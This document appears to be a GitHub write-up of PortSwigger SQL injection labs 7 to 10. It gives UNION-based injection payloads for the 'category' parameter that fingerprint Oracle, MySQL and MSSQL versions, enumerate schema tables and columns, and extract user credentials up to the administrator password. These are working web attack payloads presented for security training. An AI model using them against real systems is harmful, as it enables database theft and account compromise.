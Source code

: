 # Examining the database in SQL injection attacks
## Summary
- [Lab7: SQL injection attack, querying the database type and version on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab7-sql-injection-attack-querying-the-database-type-and-version-on-oracle)
- [Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab8-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
- [Lab9: SQL injection attack, listing the database contents on non-Oracle databases](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab9-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
- [Lab10: SQL injection attack, listing the database contents on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab10-sql-injection-attack-listing-the-database-contents-on-oracle)

### Lab7: SQL injection attack, querying the database type and version on Oracle
> 1. **If we will test an oracle database, we must use a `dual` special table during selecting null values because it will get an error if we selected anything even if it was the right thing for a number of columns.** 
> 2. **`dual` table used for evaluating expressions or calling functions.**
- Check out: [oracle-dual-table](https://www.oracletutorial.com/oracle-basics/oracle-dual-table/)
- Check out: [docs.oracle.com](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm)
- We will track our methodology and test in the first the number of columns used in the query of the application:

```
category=' UNION SELECT null,null from dual--
```
- After detecting there are 2 columns, We found a column that has a string data type:

```
category=' UNION SELECT 'test',null from dual--
```
- A simple proof-of-concept test is to extract the version string of the database, which can be done on any DBMS.
- This injected query will achieve that.
```
category=' UNION SELECT banner,null from v$version--
```

![lab7.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7.png)
- There is another way to extract the version of the oracle database.

```
category=' UNION SELECT version,null from v$instance--
```

![lab7_version.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7_version.png)

-----------------------------------------------------------------------

### Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft
> **`Note` In MySQL syntax query you must add the space after the double dash during the comment so I suggest using URL encoding to obfuscate it when you inject your payload with `--` but also you can use `#` to comment.**
 
 - Check out: [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- Test the number of columns for `MySQL` or `Microsoft SQL Server` database.
```
category=' UNION SELECT null,null--
category=' UNION SELECT null,null#
```
- Test which one of them is a text column and you will find the 2 columns receive a string value.
```
category=' UNION SELECT 'test','test'-- 
category=' UNION SELECT 'test','test'#
```
- Extract the version in any column of them.
```
category=' UNION SELECT @@version,null--
category=' UNION SELECT @@version,null#
```

![lab8_space.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab8_space.png)

-----------------------------------------------------------------------

### Lab9: SQL injection attack, listing the database contents on non-Oracle databases
- To extract any data from the database, we need to know two essential things:
	1. The name of the table you will return data from.
	2. The name of columns for this table which you will select.
- But how can we do that without knowing them?
	- We can use the `information_schema` database, It is designed to hold database metadata and provide information about the database.
	- It is supported by MS-SQL, MySQL, and many other databases other than `Oracle`.
	- Now we can know the names of the database tables and columns from `information_schema`.

- Here as we used to start with testing the number of columns and their data type.
```
category=' union select null,null from information_schema.tables--
category=' union select 'test','test' from information_schema.tables--
```
- We try to selects the columns from table is called `tables`.
- So in the first, we will try to extract the names of the tables for the database.

```
category=' union select table_name,null from information_schema.tables--
```

![lab9_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_table_name.png)

- We will find an interesting table called `users_(random_characters)`, so now we can try to extract the name of columns from the `columns` table but we will identify the table name which we need to return its columns in the query.
```
category=' union select column_name,null from information_schema.columns where table_name='users_vlfwzh'--
```

![lab9_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_column_name.png)

- The query retrieved two columns, and now the last phase is extracting the data of usernames and passwords from the `users` table.
```
category=' union select username_cluojr, password_fkpkqk from users_vlfwzh--
```

![lab9.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9.png)

- We got the administrator password, and we can log in with it. 
-----------------------------------------------------------------------

### Lab10: SQL injection attack, listing the database contents on Oracle
- Here we will test the number of columns and their data type by using `dual` table because it is an oracle database, and if you tried to test without this table, you will get an error.

```
category=' union select null,null from dual--
category=' union select 'test','test' from dual--
```
- Oracle doesn’t support the `information_schema` but it provides `all_tables` data dictionary which we can query to list all tables in oracle.

```
category=' union select table_name,null from all_tables--
```

![lab10_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_table_name.png)

- After listing all tables, we will go to list all columns in the `users_(random_characters)` table but we will use the `all_tab_columns` table to retrieve information about columns in the database.

```
category=' union select column_name,null from all_tab_columns where table_name='USERS_ZXHNHP'--
```

![lab10_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_column_name.png)

- Finally, we will extract the data of usernames and passwords.

```
category=' union select USERNAME_EXOKDN, PASSWORD_YEICFS from USERS_ZXHNHP--
```

![lab10.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10.png)
- Nice, we got the administrator password.
